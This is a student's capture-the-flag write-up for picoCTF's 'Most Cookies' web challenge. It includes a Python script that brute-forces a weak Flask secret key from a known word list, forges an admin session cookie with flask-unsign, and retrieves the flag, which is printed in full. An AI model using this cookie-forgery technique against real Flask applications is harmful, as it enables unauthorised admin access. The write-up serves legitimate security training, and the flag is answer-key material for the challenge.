 # Challenge: Most Cookies
- Category: Web

## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:65344/
## Files and Setup
`[https://jupiter.challenges.picoctf.org/problem/37821/](http://mercury.picoctf.net:65344/)`

## Flag: 
`picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`

## Solution
The webpage looked like this

<img width="1040" height="693" alt="image" src="https://github.com/user-attachments/assets/465d9d80-e8f4-4fb6-8a59-c9019f928dd7" />

Upon checking `server.py`, i saw `cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]`
when i entered any cookie name (eg. sugar) all i would get was

<img width="1027" height="537" alt="image" src="https://github.com/user-attachments/assets/a9302e1c-3ed2-4637-b3be-4e558571a340" />

So i began looking through the server script more and found that the cookie name was being randomised `app.secret_key = random.choice(cookie_names)`

and this block 
```
if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
``` 
make it clear that the cookie needed to begin with {'very_auth':'admin} 
Looking up documentation on flask cookies, i found an exploit to unsign flask cookies using subprocesses, i made this script

```
import subprocess
import requests

def sign_cookie_with_secrets(secrets, cookie_data="{'very_auth': 'admin'}"):
    out = {}
    for s in secrets:
        try:
            r = subprocess.run(
                ['flask-unsign', '--sign', '--cookie', cookie_data, '--secret', s],
                capture_output=True, text=True, check=True
            )
            out[s] = r.stdout.strip()
        except subprocess.CalledProcessError as e:
            out[s] = f"Error: {e.stderr.strip()}"
    return out

def check_cookies_for_flag(signed):
    url = 'http://mercury.picoctf.net:65344/display'
    for secret, cookie in signed.items():
        try:
            if not isinstance(cookie, str) or cookie.startswith("Error:"):
                continue
            resp = requests.get(url, cookies={'session': cookie}, allow_redirects=False, timeout=10)
            if resp.status_code in (301, 302, 303, 307, 308):
                continue
            if 'picoCTF' in resp.text:
                print(f"Secret: {secret}\nSigned Cookie: {cookie}\nResponse Text: {resp.text}\n")
                return True
        except Exception as e:
            print(f"Error with secret '{secret}': {e}")
    return False

if __name__ == "__main__":
    secrets = [
        "snickerdoodle","chocolate chip","oatmeal raisin","gingersnap","shortbread",
        "peanut butter","whoopie pie","sugar","molasses","kiss","biscotti","butter",
        "spritz","snowball","drop","thumbprint","pinwheel","wafer","macaroon",
        "fortune","crinkle","icebox","gingerbread","tassie","lebkuchen","macaron",
        "black and white","white chocolate macadamia"
    ]
    signed = sign_cookie_with_secrets(secrets)
    check_cookies_for_flag(signed)

```

Running this script gave me the following output 

```
PS C:\Users\advay\Desktop\cryptonite\webex> py solve.py
Secret: fortune
Signed Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aOQIvg.M_TMB0qZxqnLSznHaB2UtzvOJgU
Response Text: <!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>

```

## References
- https://www.bordergate.co.uk/flask-session-cookies/
- https://www.piwheels.org/project/flask-unsign/
